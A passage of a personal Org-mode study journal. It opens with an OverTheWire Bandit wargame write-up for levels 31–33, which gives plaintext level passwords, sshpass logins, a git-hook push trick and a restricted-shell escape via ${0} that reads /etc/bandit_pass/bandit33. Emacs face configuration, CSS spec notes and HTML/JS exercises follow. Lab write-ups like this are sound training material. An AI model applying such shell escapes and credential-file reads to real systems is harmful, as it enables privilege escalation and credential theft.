export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo-mirror
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo-mirror

#+begin_src shell
PASSWORD=fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit31
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy ssh bandit.labs.overthewire.org -p 2220 -l bandit31

**** Investigating bandit31's home folder

#+begin_example
bandit31@bandit:~$ ll
total 24
drwxr-xr-x   2 root root 4096 Aug 15 13:16 ./
drwxr-xr-x 150 root root 4096 Aug 15 13:18 ../
-rw-r--r--   1 root root  220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root 3851 Aug 15 13:09 .bashrc
-rwxr-xr-x   1 root root   59 Aug 15 13:16 .gitconfig*
-rw-r--r--   1 root root  807 Mar 31  2024 .profile
bandit31@bandit:~$ cat .gitconfig 
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_example

#+begin_src shell
git ls-remote
#+end_src

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit31-git-repo-mirror$ git ls-remote --heads --tags --refs --symref
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
From ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
508f78be4568c9cf050249a441800ad36c1fe5bd        refs/heads/master
#+end_example

**** I have to push a file to the remote repository

#+begin_example
2 files changed, 8 insertions(+)
.gitignore | 1 +
README.md  | 7 +++++++

new file   .gitignore
@@ -0,0 +1 @@
+*.txt
new file   README.md
@@ -0,0 +1,7 @@
+This time your task is to push a file to the remote repository.
+
+Details:
+    File name: key.txt
+    Content: 'May I come in?'
+    Branch: master
+
#+end_example

I want to
1. Modify .gitignore and remove ~*.txt~


Clone without mirror.

#+begin_src shell
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo

I need to add the user info I found on 31's home folder .gitconfig:
Add it to the repo's .git/config file.

#+begin_src gitconfig /home/rafa/hack/overthewire.org/bandit31-git-repo/.git/.gitconfig
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_src

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (3/3), 301 bytes | 301.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

>>>> ! [remote rejected] master -> master (pre-receive hook declined)

What hook is that?
Is it in the folder ~hooks~?
Only sample hooks there.

Is there something on the server?
1. I looked


fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (4/4), 361 bytes | 361.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
remote: Well done! Here is the password for the next level:        
remote: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K         
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
*** Bandit Level 32 → Level 33

#+begin_quote
Level Goal

After all this git stuff, it’s time for another escape. Good luck!
Commands you may need to solve this level

sh, man
#+end_quote

#+begin_src shell
PASSWORD=3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit32
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K ssh bandit.labs.overthewire.org -p 2220 -l bandit32

**** Control keys

| Key | Result                   |
|-----+--------------------------|
| C-D | quit                     |
| C-Z | no echo, but do not quit |
|     |                          |

#+begin_example

>> a
sh: 1: A: Permission denied
>> \
>> $
sh: 1: $: Permission denied
>> 
>> !
sh: 2: Syntax error: newline unexpected
>> !
sh: 2: Syntax error: newline unexpected
>> " 
sh: 2: Syntax error: Unterminated quoted string
>> "bash"
sh: 1: BASH: Permission denied

#+end_example

**** UPPERCASE SHELL: environment variables?

**** The uppershell executable has setgid for bandit33

#+begin_example
bandit31@bandit:/home/bandit32$ ll
total 36
drwxr-xr-x   2 root     root      4096 Aug 15 13:16 ./
drwxr-xr-x 150 root     root      4096 Aug 15 13:18 ../
-rw-r--r--   1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root      3851 Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root       807 Mar 31  2024 .profile
-rwsr-x---   1 bandit33 bandit32 15140 Aug 15 13:16 uppershell*
               ^^^^^^^^
#+end_example

**** manpage sh: ${0} gives name of shell

It was executing the expansions.
It executed that, giving me an instance of ~sh~.

#+begin_example
WELCOME TO THE UPPERCASE SHELL
>> ${$}
sh: 1: 625083: Permission denied
>> ${0}
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
#+end_example

tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
*** Bandit Level 33 → Level 34

#+begin_quote
At this moment, level 34 does not exist yet.
#+end_quote

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

I keep going back and forth from the specs to ChatGPT.
ChatGPT is great to teach me about the historical context.
It also makes great parallels with newer versions, points out things that have changed over time.
And it agrees with me about the quirks---but also often gives plausible motivations at the time for the quirks.

I just found out that modern alternatives like Flex and Grid do not collapse margins.
Thank God for them.
But this is not screamed all over the web tutorials as I believe it should be.
Advices like:

#+begin_quote
Avoid using the box model for layout, use the flex model instead.
#+end_quote

Just finished reading it.
Very nice.
Lots of quirks.

The one thing I really think would be useful is: when setting a property valeu, being able to reference the /current/ value.
For instance: If I want to make the first letter of a paragraph twice as big, I could say something like:

#+begin_src css
p::first-letter {
  font-size: calc(current * 2);  /* or  '2*'  */
}
#+end_src

Or if I wanted it to be 10 pixels bigger:

#+begin_src css
p::first-letter {
  font-size: calc(current + 10px);
}
#+end_src

** CSS2.1 Standard

It mentions "webmasters" LOL.

Starts talking about JavaScript.

** Seinfeld Checkmark

[[file:images/2025-10-08_seinfeld.jpeg]]

* [2025-10-07 Tue]

** CSS has some obscurities

The first one just appeared: The Box Model.
I'll try and be systematic here.

Reading CSS Standar Box Model.
https://www.w3.org/TR/css-box-3/

Again, much better.
Tutorials and books are hesitant about terminology and analogies.
Better go to the source.

First small joy: yes, everything in CSS is either a *box* or a *text sequence*.
CSS has its own tree, the *box tree*, derived from the DOM.

[[file:pages/css2.1-margins-padding-border.html][pages/css2.1-margins-padding-border.html]] ≡

#+begin_src html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Examples of margins, padding, and borders</TITLE>
    <STYLE type="text/css">
    </STYLE>
    <link rel="stylesheet" href="css2.1-margins-padding-border-experiments.css">
  </HEAD>
  <BODY>
    
    <div class="ul">
      <UL>
        <div class="li">
          <LI >First element of list
        </div>
        <div class="li">
          <LI class="withborder">Second element of list is a bit longer to illustrate wrapping.
        </div>
      </UL>
      <p class="undecided-p">Is this a paragraph or a list item?</p>
    </div>
  </BODY>
</HTML>
#+end_src

** I started reading CSS1 specs

Very enlightening.
Using ChatGPT to answer questions; usualy involve historical quirks.

** 1h coding

Today I really spent most of the time on the specs.
I also did lots of free explorations on the Dev Tools in Firefox, with the help of ChatGPT.
I'm counting those as coding; all in all, I feel today's work granted me that.

** Seinfeld Checkmark

[[file:images/2025-10-07_seinfeld.jpeg]]

* [2025-10-06 Mon]

** Odin Foundations Course

Started reding the theory for The Box Model.

Went do MDN and ChatGPT for clarifications.

Downloading some CSS books for reference.

Just read some chapters of some CSS books.
Nice to see they have much more structure than several online resources---editorial pressure, probably.

Now, I need to *practice*.

** Burn out WARNING

Today I studied too much, didn't go busking, and didn't properly rest.

I'll work on my 1h coding now, and then rest.

** 1h of Hack!

I'll experiment with LP.
Two code blocks: HTML and JS.

First we tangle.

[[file:~/dev/js-ChatGPT/2025-10-06.html][~/dev/js-ChatGPT/2025-10-06.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>JS with ChatGPT</title>
  </head>

  <body>
    <dl>
      <<html>>
    </dl>

    <script>
      <<js>>
    </script>
  </body>
</html>
#+end_src

*** Minute 40–50: Keyboard events
Now the task:
#+begin_quote
Minute 40–50: Keyboard events
16. Add a <p> that shows which key the user presses (keydown event).
Learn: event.key.
#+end_quote

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Keyboard Events</dt>
<dd><p id="pKeyPress"></p></dd>
#+end_src

~event.key~

Need to add an event listener.
Will add it to ~window~.

~<<js>> +≡~

#+begin_src js :noweb-ref js
const pKeyPress = document.getElementById("pKeyPress");
window.addEventListener("keydown", (e) => {
    pKeyPress.textContent = e.key;
})
#+end_src

*** Minute 50–60: Mini-project — Guess the Number

#+begin_quote
Minute 50–60: Mini-project — Guess the Number
17. Build a simple game:

Generate a random number between 1 and 10.

Add an <input> and a button.

User guesses the number. Show “Too high”, “Too low”, or “Correct!”.
Learn: combining input, random, conditionals, and DOM updates.
#+end_quote

Add the controls.
Will use a ~dl~.

~<<html>> +≡~

#+begin_src html :noweb-ref html
<dt>Guess the number</dt>
<dd>Enter a number between 1 and 10</dd>
<dd><input id="inputGuessNumber" type="text"><button id="buttonGuessNumber">Go!</button></dd>
<dd>Result:</dd>
<dd id="ddGuessNumberResult"></dd>
#+end_src

Create a function to choose a random number between 1 and 10.

~<<js>> +≡~

#+begin_src js :noweb-ref js
<<allow user to press Enter instead of clicking the button>>
let number = Math.floor(Math.random() * 10) + 1;
const ddGuessNumberResult = document.getElementById("ddGuessNumberResult");
document.getElementById("buttonGuessNumber")
    .addEventListener("click", () => {
        let guess = Number(document.getElementById("inputGuessNumber").value);
        if (guess < number) {
            ddGuessNumberResult.textContent = "Too low";
        } else {
            if (guess > number) {
                ddGuessNumberResult.textContent = "Too High";
            } else {
                ddGuessNumberResult.textContent = "Correct!";
            }
        }
    });
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-06_seinfeld.jpeg]]

* [2025-10-05 Sun]

** web.dev HTML Course

Going over the curriculum again, this time specifically to know which *projects* it has.

** ~hr~

Thematic changes.
The Standard says ~section~ and ~hr~ have some "equivalences"---let's experiment with them.

[[file:~/dev/webdev-study/pages/hr.html][~/dev/webdev-study/pages/hr.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;hr&gt;</title>
  </head>

  <body>
    <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

    <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>

    <hr>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>

    <hr>

    <section>
      <p>Aliquam erat volutpat.  Nunc eleifend leo vitae magna.  In id erat non orci commodo lobortis.  Proin neque massa, cursus ut, gravida ut, lobortis eget, lacus.  Sed diam.  Praesent fermentum tempor tellus.  Nullam tempus.  Mauris ac felis vel velit tristique imperdiet.  Donec at pede.  Etiam vel neque nec dui dignissim bibendum.  Vivamus id enim.  Phasellus neque orci, porta a, aliquet quis, semper a, massa.  Phasellus purus.  Pellentesque tristique imperdiet tortor.  Nam euismod tellus id erat.</p>

      <p>Nullam eu ante vel est convallis dignissim.  Fusce suscipit, wisi nec facilisis facilisis, est dui fermentum leo, quis tempor ligula erat quis odio.  Nunc porta vulputate tellus.  Nunc rutrum turpis sed pede.  Sed bibendum.  Aliquam posuere.  Nunc aliquet, augue nec adipiscing interdum, lacus tellus malesuada massa, quis varius mi purus non odio.  Pellentesque condimentum, magna ut suscipit hendrerit, ipsum augue ornare nulla, non luctus diam neque sit amet urna.  Curabitur vulputate vestibulum lorem.  Fusce sagittis, libero non molestie mollis, magna orci ultrices dolor, at vulputate neque nulla lacinia eros.  Sed id ligula quis est convallis tempor.  Curabitur lacinia pulvinar nibh.  Nam a sapien.</p>
    </section>

    <p>Lorem ipsum dolor sit amet, consectetuer adipiscing elit.  Donec hendrerit tempor tellus.  Donec pretium posuere tellus.  Proin quam nisl, tincidunt et, mattis eget, convallis nec, purus.  Cum sociis natoque penatibus et magnis dis parturient montes, nascetur ridiculus mus.  Nulla posuere.  Donec vitae dolor.  Nullam tristique diam non turpis.  Cras placerat accumsan nulla.  Nullam rutrum.  Nam vestibulum accumsan nisl.</p>
  </body>
</html>
#+end_src

Visually, there's no explicit "equivalence"; maybe we need some CSS for that.

** ~pre~

[[file:pages/pre.html][pages/pre.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>&lt;pre&gt;</title>
  </head>

  <body>
    <h1>The <code>&lt;pre&gt; element</code></h1>
    <h2>Just <code>&lt;pre&gt;</code></h2>
    <pre>
      function greet(name) {
        console.log(`Hello, ${name}`);
      }
    </pre>

    <h2><code>&lt;pre&gt;&lt;code&gt;&lt;code&gt;&lt;pre&gt;</code></h2>
    <pre>
      <code>
        function greet(name) {
          console.log(`Hello, ${name}`);
        }
      </code>
    </pre>
  </body>
</html>
#+end_src

Both use monospaced fonts.

** ~kbd~

[[file:pages/kbd.html][pages/kbd.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <pre><samp>You are in an open field west of a big white house with a boarded
front door.
There is a small mailbox here.

></samp> <kbd>open mailbox</kbd>

<samp>Opening the mailbox reveals:
A leaflet.

></samp></pre>
  </body>
</html>
#+end_src

Initial whitespace ("prefixing" w.) matters.

** ~blockquote~

[[file:pages/blockquote.html][pages/blockquote.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title></title>
  </head>

  <body>
    <blockquote>
      <p>I contend that we are both atheists. I just believe in one fewer
        god than you do. When you understand why you dismiss all the other
        possible gods, you will understand why I dismiss yours.</p>
    </blockquote>
    <p>— Stephen Roberts</p>
    <hr>
    <figure>
      <blockquote>
        <p>The truth may be puzzling. It may take some work to grapple with.
          It may be counterintuitive. It may contradict deeply held
          prejudices. It may not be consonant with what we desperately want to
          be true. But our preferences do not determine what's true. We have a
          method, and that method helps us to reach not absolute truth, only
          asymptotic approaches to the truth — never there, just closer
          and closer, always finding vast new oceans of undiscovered
          possibilities. Cleverly designed experiments are the key.</p>
      </blockquote>
      <figcaption>Carl Sagan, in "<cite>Wonder and Skepticism</cite>", from
        the <cite>Skeptical Inquirer</cite> Volume 19, Issue 1 (January-February
        1995)</figcaption>
        </figure>
    <hr/>
    <article>
      <h1><a href="https://bacon.example.com/?blog=109431">Bacon on a crowbar</a></h1>
      <article>
        <header><strong>t3yw</strong> 12 points 1 hour ago</header>
        <p>I bet a narwhal would love that.</p>
        <footer><a href="?pid=29578">permalink</a></footer>
        <article>
          <header><strong>greg</strong> 8 points 1 hour ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>Dude narwhals don't eat bacon.</p>
          <footer><a href="?pid=29579">permalink</a></footer>
          <article>
            <header><strong>t3yw</strong> 15 points 1 hour ago</header>
            <blockquote>
              <blockquote><p>I bet a narwhal would love that.</p></blockquote>
              <p>Dude narwhals don't eat bacon.</p>
            </blockquote>
            <p>Next thing you'll be saying they don't get capes and wizard
              hats either!</p>
            <footer><a href="?pid=29580">permalink</a></footer>
            <article>
              <article>
                <header><strong>boing</strong> -5 points 1 hour ago</header>
                <p>narwhals are worse than ceiling cat</p>
                <footer><a href="?pid=29581">permalink</a></footer>
              </article>
            </article>
          </article>
        </article>
        <article>
          <header><strong>fred</strong> 1 points 23 minutes ago</header>
          <blockquote><p>I bet a narwhal would love that.</p></blockquote>
          <p>I bet they'd love to peel a banana too.</p>
          <footer><a href="?pid=29582">permalink</a></footer>
        </article>
      </article>
    </article>
    <hr>
    <p>He began his list of "lessons" with the following:</p>
    <blockquote>One should never assume that his side of
      the issue will be recognized, let alone that it will
      be conceded to have merits.</blockquote>
    <p>He continued with a number of similar points, ending with:</p>
    <blockquote>Finally, one should be prepared for the threat
      of breakdown in negotiations at any given moment and not
      be cowed by the possibility.</blockquote>
    <p>We shall now discuss these points...</p>
  </body>
</html>
#+end_src

** ~ol~

[[file:pages/ol.html][pages/ol.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>ol</title>
  </head>

  <body>
    <p>I have lived in the following countries (given in the order of when
      I first lived there):</p>
    <hr>
    <ol>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed>
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="3">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol reversed start="2">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="I" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="i" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="A" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
    <hr>
    <ol type="a" start="-1">
      <li>Switzerland
        <li>United Kingdom
          <li>United States
            <li>Norway
    </ol>
  </body>
</html>
#+end_src

** ~menu~

[[file:pages/menu.html][pages/menu.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>menu</title>
  </head>

  <body>
    <menu>
      <li><button onclick="copy()"><img src="copy.svg" alt="Copy"></button></li>
      <li><button onclick="cut()"><img src="cut.svg" alt="Cut"></button></li>
      <li><button onclick="paste()"><img src="paste.svg" alt="Paste"></button></li>
    </menu>
  </body>
</html>
#+end_src

** ~dl~

[[file:pages/dl.html][pages/dl.html]] ≡

#+begin_src html
<!DOCTYPE html>

<html lang="en">

  <head>
    <meta charset="UTF-8">
    <title>dl</title>
  </head>

  <body>
    <dl>
      <dt> Authors
        <dd> John
          <dd> Luke
            <dt> Editor
              <dd> Frank
    </dl>
    <hr>
    <dl>
      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Café ou Chocolat Liégeois
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              2 boules Café ou Chocolat, 1 boule Vanille, sauce café ou chocolat, chantilly
      </div>

      <div itemscope itemtype="http://schema.org/Product">
        <dt itemprop="name">Américaine
          <dd itemprop="offers" itemscope itemtype="http://schema.org/Offer">
            <span itemprop="price">3.50</span>
            <data itemprop="priceCurrency" value="EUR">€</data>
            <dd itemprop="description">
              1 boule Crème brûlée, 1 boule Vanille, 1 boule Caramel, chantilly
      </div>
    </dl>
    <hr>
    <dl>
      <dt><dfn>happiness</dfn></dt>
      <dd class="pronunciation">/ˈhæpinəs/</dd>
      <dd class="part-of-speech"><i><abbr>n.</abbr></i></dd>
      <dd>The state of being happy.</dd>
